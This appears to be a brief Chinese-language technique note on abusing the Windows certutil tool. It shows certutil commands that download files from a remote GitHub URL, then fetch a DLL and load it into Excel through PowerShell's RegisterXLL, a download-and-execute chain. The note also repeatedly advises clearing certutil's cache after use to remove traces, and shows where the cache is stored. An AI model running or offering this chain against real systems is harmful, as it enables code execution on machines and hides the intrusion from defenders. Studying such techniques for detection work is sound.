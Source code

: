 ## certutil简介

[certutil简介](https://www.cnblogs.com/lfoder/p/8241548.html)

支持环境: XP  -  Windows 10 全系统

```certutil /?```  # 帮助


下载文件： ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt file.txt```

**清缓存** ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt delete```

**使用后需要注意清除缓存**

测试系统安装Office软件，下载执行dll对应的powershell代码如下：

     ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll```
     
PS   ```$path="C:\Users\Administrator\msg.dll"```

PS   ```$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))```

PS   ```$excel.RegisterXLL($path)```

excel 弹出 ```hello world,I'm 3kb```

**使用后需要注意清除缓存**

查看利用certUtil下载文件的缓存记录：

certutil.exe -urlcache *

缓存文件位置：

%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
